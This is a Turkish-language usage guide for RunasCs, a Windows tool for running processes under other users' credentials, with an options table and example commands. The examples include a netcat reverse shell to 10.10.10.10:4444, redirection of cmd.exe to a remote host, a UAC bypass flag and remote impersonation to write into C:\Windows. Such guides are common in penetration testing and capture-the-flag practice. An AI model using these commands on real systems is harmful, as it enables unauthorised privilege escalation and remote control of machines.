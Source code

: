 # RunasCs Kullanım Kılavuzu

## Giriş
RunasCs, farklı kullanıcı izinleriyle işlemleri çalıştırmak için kullanılan gelişmiş bir araçtır. Windows'un yerleşik `runas.exe` aracının yeteneklerini genişletir ve şu gibi avantajlar sunar:
- Açık kimlik bilgileriyle işlem başlatma
- UAC kısıtlamalarını aşma
- Farklı oturum türlerini destekleme (örneğin, NetworkCleartext)
- Giriş/çıkış yönlendirme (stdin, stdout, stderr) 
- Uzak kimlik doğrulama ile işlem başlatma

---

## Gereksinimler
- .NET Framework >= 2.0
- Komut satırı erişimi
- Yeterli ayrıcalıklara sahip bir kullanıcı hesabı

---

## Özellikler
- Kullanıcı adı ve şifre ile oturum açarak işlem başlatma
- UAC baypası
- NetworkCleartext gibi farklı oturum türlerini destekleme
- Uzak ana makinelere giriş/çıkış yönlendirme
- Kullanıcı profili oluşturma
- Etkileşimli olmayan arka plan işlemleri başlatma

---

## Kullanım
### Yardım Mesajını Görüntüleme
Tüm kullanılabilir komutları ve parametreleri görmek için:
```cmd
RunasCs.exe
```

### Temel Kullanım
```cmd
RunasCs.exe <username> <password> <command> [options]
```

### Opsiyonel Argümanlar
| Parametre              | Açıklama                                                                 |
|------------------------|-------------------------------------------------------------------------|
| `-d, --domain`         | Kullanıcının etki alanı. Varsayılan: ""                                |
| `-f, --function`       | Kullanılacak `CreateProcess` fonksiyonu. (0: AsUserW, 1: WithTokenW, 2: LogonW) |
| `-l, --logon-type`     | Yeni işlemin oturum türü. Varsayılan: 2 (Etkileşimli)                  |
| `-t, --timeout`        | Süreç bekleme süresi (ms). Varsayılan: 120000                         |
| `-r, --remote`         | stdin, stdout ve stderr yönlendirme için uzak ana makine ve port      |
| `-p, --force-profile`  | Kullanıcı profili oluşturma                                           |
| `-b, --bypass-uac`     | UAC baypası denemesi                                                  |
| `-i, --remote-impersonation` | Uzak bir kullanıcı adına işlem başlatma                         |

---

## Örnek Kullanımlar

### 1. Yerel Kullanıcıyla Komut Çalıştırma
```cmd
RunasCs.exe user1 password1 "cmd /c whoami /all"
```

### 2. Etki Alanı Kullanıcısıyla NetworkCleartext Oturumu
```cmd
RunasCs.exe user1 password1 "cmd /c whoami /all" -d domain -l 8
```

### 3. Arka Planda İşlem Başlatma
```cmd
RunasCs.exe user1 password1 "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
```

### 4. Uzak Ana Makineye Giriş/Çıkış Yönlendirme
```cmd
RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444
```

### 5. UAC Baypası ile Komut Çalıştırma
```cmd
RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac
```

### 6. Uzak Kimlik Doğrulama ile İşlem Başlatma
```cmd
RunasCs.exe adm1 password1 "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

---

## Notlar
- **NetworkCleartext (8)**: UAC kısıtlamalarını aşarak geniş izinlerle işlem başlatır.
- **Arka Plan İşlemleri**: Arka planda bir süreç başlatmak için `-t 0` parametresi kullanılabilir.
- **UAC Baypası**: `--bypass-uac` bayrağı, işlem kısıtlamalarını kaldırmak için kullanılır.

---

## Kaynaklar
- [RunasCs GitHub](https://github.com/antonioCoco/RunasCs)
- [Vanara .NET Kütüphanesi](https://github.com/dahall/Vanara)

---

Bu rehber, RunasCs aracını kullanarak farklı kullanıcı izinleriyle işlem başlatma süreçlerini kapsamaktadır. Daha fazla bilgi veya yardım için yukarıdaki kaynakları ziyaret edin.

